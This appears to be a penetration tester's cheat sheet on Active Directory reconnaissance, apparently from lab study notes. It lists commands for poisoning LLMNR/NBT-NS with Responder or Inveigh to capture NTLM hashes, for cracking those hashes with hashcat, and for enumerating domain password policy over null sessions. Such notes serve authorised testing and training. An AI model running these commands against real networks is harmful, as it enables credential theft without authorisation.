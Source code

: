 # Recon

## Ldapsearch

search for valid users, password policy and other attributes such as description

## LLMNR - NBT-NS Poisoning

use tool such as Responder to poison NBT-NS requests and obtain NTLM Hash

LLMNR uses 5355 over UDP NBT-NS uses 137 over UDP

### From Linux

```
responder -h
ls --> SMB-NTLMv2-SSP-172.16.5.200.txt

sudo responder -I ens224 
hashcat -m 5600 SMB-NTLMv2-SSP-172.16.5.200.txt /usr/share/wordlists/rockyou.txt 
```

### From Windows

```
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

C# Inveigh (InveighZero)
.\Inveigh.exe
```

## Enumerate password policy

### Without credentials

```
rpcclient -U "" -N $TARGET
rpcclient $> querydominfo
rpcclient $> getdompwinfo

enum4linux -P $TARGET

enum4linux-ng -P $TARGET -oA ilfreight
```

### From Ldapsearch

```
ldapsearch -h $TARGET -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

### From Windows

Powershell :

```
import-module .\PowerView.ps1
Get-DomainPolicy
```

CMD :&#x20;

```
net accounts
```

NULL Session :&#x20;

```
net use \\DC01\ipc$ "" /u:""
```

### Default values when a domain is created

```
Policy	Default Value
Enforce password history	24 days
Maximum password age	42 days
Minimum password age	1 day
Minimum password length	7
Password must meet complexity requirements	Enabled
Store passwords using reversible encryption	Disabled
Account lockout duration	Not set
Account lockout threshold	0
Reset account lockout counter after	Not set
```
